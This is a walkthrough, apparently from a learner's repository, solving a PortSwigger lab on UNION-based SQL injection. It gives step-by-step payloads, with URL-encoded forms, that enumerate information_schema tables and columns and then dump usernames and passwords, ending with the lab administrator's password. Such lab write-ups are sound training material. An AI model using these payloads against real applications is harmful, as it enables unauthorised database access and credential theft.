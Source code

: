 
# SQL injection attack, listing the database contents on non-Oracle databases

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

___
**HINT:**
![screnshot](./images/lab9_listing_content_of_database.png)

`SELECT * FROM information_schema.tables--`  => for table like `Product`,`Users` etc
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'` => for `UserId`, `Password`

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater

![screnshot](./images/lab9_category_pets.png)

step 2

`SELECT * FROM information_schema.tables--`
you can rewrite payload using UNION
```sql
' UNION SELECT NULL,TABLE_NAME FROM information_schema.tables--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--
```

`/filter?category=Pets'+UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--`

![screnshot](./images/lab9_user_table.png)

Table => `users_xqqeus`

step 3

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_xqqeus'--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_xqqeus'--
```

`/filter?category=Pets'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_xqqeus'--`

![screnshot](./images/lab9_user_id_password.png)

User-id => `username_wifoyz` Password => `password_jipwdz`

step 4

`SELECT * FROM Users`
Rewrite payload using UNION
```sql
' UNION SELECT username_wifoyz,password_jipwdz FROM users_xqqeus--
```

convert to URL Encoded
```sql
'+UNION+SELECT+username_wifoyz,password_jipwdz+FROM+users_xqqeus--
```

`/filter?category=Pets'+UNION+SELECT+username_wifoyz,password_jipwdz+FROM+users_xqqeus--`

![screnshot](./images/lab9_administrator_password.png)


step 5

To solve the lab use administrator id and password
```html
<tr>
	<th>administrator</th>
	<td>ete87avuw1cw7826f8ec</td>
</tr>
```

![screnshot](./images/lab9_solved_lab.png)